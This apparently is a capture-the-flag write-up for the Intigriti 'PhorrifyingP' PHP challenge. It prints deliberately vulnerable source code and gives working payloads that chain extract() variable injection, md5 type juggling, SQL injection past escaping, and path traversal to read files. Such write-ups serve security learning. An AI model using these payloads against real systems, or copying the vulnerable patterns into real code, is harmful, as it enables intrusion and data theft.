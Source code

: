 # Intigriti CTF — PhorrifyingP

PHP challenge having multiple vulnerabilities.
  - PHP extract method
  - Type juggling
  - SQL injection
  - LFI 

Source code provided by the challenge

```
<?php
/*
    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>
*/
if ($_SERVER['REQUEST_METHOD'] == 'POST'){
    extract($_POST);

    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){
        $loggedin = true;
    }

    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){
        header('Location: ' . $_SERVER['REQUEST_URI']);
    }

    if (isset($loggedin) && $loggedin){
        echo 'One step closer 😎<br>';

        if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){
            echo 'Really? 😅<br>';

            $db = new SQLite3('database.db');
            $sql_where = Array('1=0');

            foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));

            if ($result == 'admin'){
                echo 'Last step 🤣<br>';

                readfile(file_get_contents('php://input'));
            }
        }
    }
}
?>

```
###### Bypassing  loggedin condition

```
if (isset($loggedin) && $loggedin)
```
Here we will exploit **extract** method. **extract($_POST);**  

If you look at php documentation for extract method there is one warning
![image](https://user-images.githubusercontent.com/19681324/158346871-12c4984e-e546-49d3-9992-e98995d7f043.png)

So we can directly pass **loggedin=true** in the post request body to bypass this condition
![image](https://user-images.githubusercontent.com/19681324/158347129-4d2b5593-191c-4f22-bac9-76635e381288.png)


###### Exploiting type juggling
```
(isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])
```
First condition checks for availability of the get parameter with name action and 2nd condition checks if md5 of get parameter is equal to get parameter value itself, which is not possible in any real world. But this is check is done using loose comparison, which can be exploited.

This [link](https://github.com/bl4de/ctf/blob/master/2017/HackDatKiwi_CTF_2017/md5games1/md5games1.md) here has exploited the same condition. A number which will satisfy this condition is 0e215962017. md5( 0e215962017 ) ---> 0e291242476940776845150308577824

PHP loose comparison will work as below
0e215962017 : will be interpreted as 0
md5( 0e215962017 ) ---> 0e291242476940776845150308577824 : will also be interpreted as 0
 
so there comparison will be true
![image](https://user-images.githubusercontent.com/19681324/158349729-391feef7-a24a-45eb-8341-2fb06c5bb808.png)

###### Exploiting SQL inection

```
  foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));
```

sql_were variable is created by retrieving the key and value coming in the post request. escapestring will convert the payload like **UNION+SELECT+"admin"** to **1_UNION_SELECT_** space is being converted to underscore.

However this can be bypassed. Also app uses querySingle which will return a single result, so if we can force the query to return just a single result i.e. admin we can bypass this. 

This can be done easily with the payload
```
1%3d2/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true
```
As you can see in the image we get Last step in the response

![image](https://user-images.githubusercontent.com/19681324/158352580-14f8130a-64f7-4c1f-91d3-9da8909decec.png)

###### Exploiting LFI

At the last of previous step we also saw an error
```
  readfile(1%3d2/**/UNION/**/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true): failed to open stream: No such file or directory in <b>/var/www/html/index.php
```
All of the post parameter is directly being passed into the read file function. Now we can go up the directory to read index.php file with the ../ pattern

our final payload will be, which will give us the flag
```
1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php
```
![image](https://user-images.githubusercontent.com/19681324/158353333-4570910e-aa29-46b9-ab62-dad66de1ccf6.png)




